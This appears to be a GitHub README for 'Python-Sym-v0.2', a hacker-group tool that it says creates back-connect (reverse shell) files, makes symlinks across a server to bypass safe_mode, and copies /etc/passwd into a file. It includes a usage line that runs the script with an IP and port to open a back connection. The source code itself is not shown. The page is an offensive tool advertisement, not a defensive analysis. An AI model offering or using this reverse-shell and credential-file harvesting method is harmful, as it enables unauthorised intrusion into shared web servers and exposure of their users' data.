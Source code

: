 # Python-Sym-v0.2
Python Sym v0.2
Symlink & BackConnect

------------------------------------------------------------------------------------------------

    1 - BackConnect (create a back connect file)
    
    2- create Symlink to whole server
    
    3- create Symlink to a file

    PS : * if you used choices 2 or 3 we will bypass safe_mode in server
         * a passwd.txt file will created cointain /etc/passwd file
         * you will find files in "sym"

    if you are using this Script from the web, you can BackConnect by typing
    python SymConnect.py [ip] [port]
    example: python SymConnect 192.168.0.0 77
    
------------------------------------------------------------------------------------------------


[+]Read /etc/passwd >> passwd.txt
GreeTz : HsN,Hiso,Fat7,vir,Marco,oudouz,D3v.
All Rights Reserved @ Mid-Set
C0ntact : http://fb.com/midset00
